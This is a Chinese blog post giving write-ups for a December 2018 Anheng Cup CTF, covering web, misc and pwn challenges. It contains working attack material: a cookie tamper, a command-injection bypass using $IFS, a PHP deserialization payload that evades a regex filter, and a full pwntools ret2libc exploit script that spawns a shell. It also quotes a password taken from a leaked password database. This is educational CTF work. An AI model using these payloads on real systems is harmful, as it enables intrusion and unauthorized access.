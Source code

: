 ```yaml
---
layout: post
title: 2018年安恒杯12月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
  - pwn
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

### ezweb（100分）:
一个网站，网站首页抓包在cookie里有一个user参数，解码发现时user，改成admin重新提交后跳转到admin.php。（ps:扫目录扫出admin.php，直接在admin.php改user参数没用，必须要从index跳转，很坑。。。）
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-2.png)
之后是一个框，可以直接命令执行，空格被过滤，用$IFS绕过即可，flag在系统根目录。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-3.png)

### web2（200分）

源码已经给了，就是一个反序列化，正则是要求`o:`后面不能接数字，后面加一个加号可以绕过，注意提交的时候加号要url编码，不然会被当成空格。
payload:`O:+4:"baby":1:{s:4:"file";s:8:"flag.php";}`
```
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

## misc

### misc1(100分）
一个压缩包，密码提示如下，到最后都没人做出来，后来又放了提示`解压密码不是时间；8进制`比赛结束有人给出了密码`!(()!@)6125dou `，是csdn泄漏的密码库里没有重复的密码。。。这脑洞。后面也没做
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-2.jpeg)

### misc2(100分）
签到题，关注公众号，什么牛不会跑，答案是蜗牛
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc2-1.jpeg)

### misc3(100分)
给了一个加密的压缩包，一个txt，压缩包里也有这个txt，比较一下crc发现一样，明文爆破就行了。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-1.png)
然后是一个docx文件，后缀名改成zip解压，`word\document.xml`里有一串md5，就是flag。后来听说某些版本的office把docx里的图片移走就有flag，我mac的page试了不行
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-2.png)
### misc4(100分)
一张png，我的mac下打不开，但是windows下能正常打开，说明图片高度有问题（mac大法好）。把高度和长度改成一样的，出现一段编码，因为末尾超过了两个==，猜测是base32，最后面再加上一个=base32解码即可。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc4-1.png)

## pwn

### pwn1(100分)
很简单的栈溢出，120个字符溢出，开了nx保护，不能写shellcode，可以ret2libc。
```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./messageb0x')
#io=gdb.debug("./messageb0x")
#io=remote('101.71.29.5',10009)
elf = ELF('./messageb0x')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['process_info']

print "leak puts_got addr and return to main again"
payload = flat(['A' * 120, puts_plt, main, puts_got])
sh.sendline(payload)

print "get the related addr"
sh.recvuntil('Thank you !\n')
puts_addr=u32(sh.recv()[0:4])
libc = LibcSearcher('puts', puts_addr)
libcbase = puts_addr - libc.dump('puts')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 120, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)
sh.interactive()
```

[1]: https://www.linkedbyx.com/home